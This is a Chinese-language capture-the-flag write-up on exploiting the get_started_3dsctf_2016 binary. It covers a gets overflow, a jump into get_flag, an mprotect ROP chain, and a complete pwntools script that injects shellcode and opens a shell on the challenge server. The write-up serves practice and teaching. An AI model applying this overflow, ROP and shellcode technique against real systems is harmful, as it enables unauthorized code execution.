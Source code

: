 首先看到main函数

![image-20200730150103790](https://static.hack1s.fun/images/2021/02/06/image-20200730150103790.png)

一个printf一个gets，main函数的逻辑还是挺简单的

看到旁边的函数，有一个`get_flag`

![image-20200730151448182](https://static.hack1s.fun/images/2021/02/06/image-20200730151448182.png)

这里的`get_flag`不是简单的直接读文件，还存在两个条件判断，判断了a1、a2两个数的值

而这两个数是`get_flag`的参数，也就是说在构造payload的时候需要将a1、a2两个参数的值附上，或者需要直接跳转到这两个条件判断之后的代码

差点忘了要检查一下安全机制：

![image-20200730154608035](https://static.hack1s.fun/images/2021/02/06/image-20200730154608035.png)

发现开启了NX，不过这里开了NX也影响不大，毕竟二进制程序本身就包含了读文件的函数，直接跳转过去执行就可以了

TextView里面看一下`get_flag`的地址偏移

![image-20200730154806723](https://static.hack1s.fun/images/2021/02/06/image-20200730154806723.png)

按着这个思路本来写了这样的一个payload

```python
payload = "a"*0x38 + "a"*4 + p32(0x80489a0)
```

但是程序自己直接就退出了，而且连本来的printf都不输出了

改成

```python
payload = "a"*0x38 + p32(0x80489a0)
```

这样之后，printf就可以输出了，但是还是没有读到flag里面的内容；这一步其实有些问题，为什么不用覆盖ebp呢，没有这四个a的话地址不是覆盖着ebp而不是ra吗？

之后如果改成

```python
payload = 'a'*0x38 + p32(0x80489b8)
```

这样会直接跳到两个条件判断之后，就可以读出来flag的内容了

![image-20200731111433918](https://static.hack1s.fun/images/2021/02/06/image-20200731111433918.png)

但是这样的程序其实是存在问题的，因为直接跳转到了flag函数的内部，会导致栈帧不平衡

看了网上的一些方法之后，其实还有更好的办法

函数表中存在一个`mprotect`函数

![image-20200731120253306](https://static.hack1s.fun/images/2021/02/06/image-20200731120253306.png)

这个函数作用是修改用户态内存段的权限

```c
int mprotect(const void *start, size_t len, int prot);
```

会把从`start`开始，长度为`len`的内存空间权限修改为`prot`

其中prot取值有四个

- `PROT_READ`
- `PROT_WRITE`
- `PROT_EXEC`
- `PROT_NONE`

程序函数表中引入了这个函数，就可以首先用这个函数修改bss段中的一部分为可执行，之后用read函数写入shellode，最后再跳转到shellcode

指定的内存大小至少要是一个内存页(4k)，并且起始位置也必须是一个内存页的开始位置

首先可以看一下进程的内存空间，将进程后台运行后直接查看`/proc/pid/maps`，这里会写出来进程内存空间的权限和起始地址

![image-20200731121934216](https://static.hack1s.fun/images/2021/02/06/image-20200731121934216.png)

图例可以看到进程在`80ea000`到`80ec000`的区域是可以读写的，并且属于进程自己的空间

所以我们可以选这里的中间，`80eb000`这里开始，增加一段具有执行权限的区域，想要执行的语句应该是

```C
mprotect(0x80eb000,0x1000,7);
```

这条指令之后，从`0x80eb000`这里到`0x80ed000`这一段内存就变成了可读可写可执行的权限，下面就需要向其中写入shellcode

调用mprotect这里函数结束之后，下面想要调用read函数，但是这时堆栈中mprotect的三个参数就占了位置，所以需要pop出来3个参数，调整堆栈，使得read函数的地址在栈顶，这样就可以直接用ret跳转到read函数的位置，所以用ROPGadget再搜索一下三个pop的gadget

![image-20200731190353655](https://static.hack1s.fun/images/2021/02/06/image-20200731190353655.png)

得到这样的一条指令。下面payload就需要调用mprotect，并且平衡堆栈

```python
payload = 'a'*0x38 + p32(mprotect) + p32(pop3) + p32(arg1) + p32(arg2) + p32(arg3)
```

这三个pop的gadget的位置是mprotect执行完后的下一条指令

read函数定义如下

```c
ssize_t read(int fd,void *buf,size_t count;) 
```

这里想要执行的是将shellcode从输入直接写到内存，所以fd可以设为1，表示从标准stdin接受输入

```python
payload += p32(read) + p32(1) + p32(0x80ec000) + p32(0x1000)
```

当read被执行之后程序应该是又一次进入了等待输入的状态，这时就发送另一个payload，用于获取到权限;这个可以用pwntools自带的shellcraft来生成

```python
payload2 = asm(shellcraft.sh(),arch='i386',os='linux')
```

 这个发送过去之后进入`interactive`状态就可以了



```python
from pwn import *

io = remote('node3.buuoj.cn',26403)
#io = process('./get_started_3dsctf_2016')
elf = ELF('./get_started_3dsctf_2016')

mprotect = elf.symbols['mprotect']
read = elf.symbols['read']

pop3_addr = 0x80483b8

payload1 = 'a'*0x38 + p32(mprotect) + p32(pop3_addr) + p32(0x80eb000) + p32(0x1000) + p32(7)

payload1 += p32(read) + p32(1) + p32(0x80eb000) + p32(0x100)

payload2 = asm(shellcraft.sh(),arch='i386',os='linux')

io.sendline(payload1)
io.sendline(payload2)

io.interactive()
```

